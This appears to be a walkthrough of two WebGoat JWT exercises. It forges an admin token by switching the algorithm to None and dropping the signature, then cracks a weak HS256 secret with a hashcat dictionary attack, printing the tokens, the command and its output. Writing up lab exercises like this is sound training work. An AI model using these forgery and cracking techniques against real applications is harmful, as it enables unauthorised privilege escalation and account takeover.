 # (A2) JWT tokens

## Lesson 4 - JWT signing
Login as Tom and grab the JWT token from `Set-Cookie` response header:
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1ODYxNjAzNTUsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

We can easily decode the token on https://jwt.io/ (or manually on [Base64URL](http://www.base64url.com/)):
```
Header:
{
  "alg": "HS512"
}

Payload:
{
  "iat": 1586160355,
  "admin": "false",
  "user": "Tom"
}

Signature:
dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

Let's make a few changes (`alg` to `None` and `admin` to `true`):
```
Header:
{
  "alg": "None"
}

Payload:
{
  "iat": 1586160355,
  "admin": "true",
  "user": "Tom"
}
``` 

Encode it again with [Base64URL](http://www.base64url.com/), omit the signature completely and use this token
to reset the votes:
```
eyAiYWxnIjogIk5vbmUiIH0.eyAgImlhdCI6IDE1ODYxNjAzNTUsICAiYWRtaW4iOiAidHJ1ZSIsICAidXNlciI6ICJUb20ifQ.
```

## Lesson 5 - JWT cracking
The goal is to crack the given (randomly generated) JWT token:
```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU4NTA4MzgyOCwiZXhwIjoxNTg1MDgzODg4LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.fqAAKhCRC__ZeBKZJkR8zDMmfDJLCYd4YJMrrbVXiJc
```

The token is signed with `HS256` but the password is weak. I chose [hashcat](https://hashcat.net/hashcat/)
which has a built-in support for cracking JWT tokens:
```
$ hashcat -a 0 -m 16500 data/02-broken-auth/jwt-token.txt data/02-broken-auth/google-10000-english.txt
..
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU4NTA4MzgyOCwiZXhwIjoxNTg1MDgzODg4LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.fqAAKhCRC__ZeBKZJkR8zDMmfDJLCYd4YJMrrbVXiJc:business
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: JWT (JSON Web Token)
Hash.Target......: eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIE...bVXiJc
Time.Started.....: Fri Mar 27 04:03:58 2020 (1 sec)
Time.Estimated...: Fri Mar 27 04:03:59 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    25384 H/s (8.64ms) @ Accel:384 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4608/14344385 (0.03%)
Rejected.........: 0/4608 (0.00%)
Restore.Point....: 3072/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: adriano -> class08
```
- `-a 0` is for dictionary attack
- `-m 16500` is for JWT token (you can find in help)

The password is `business`. Knowing the password, we can easily modify the and re-sign the token on https://jwt.io/.

Note: _hashcat_ was unable to crack some of the tokens failing on `Token length exception`. This is perhaps
a bug in `hashcat 5.1.0`? I had to try more tokens before succeeding. More people are having the same issue.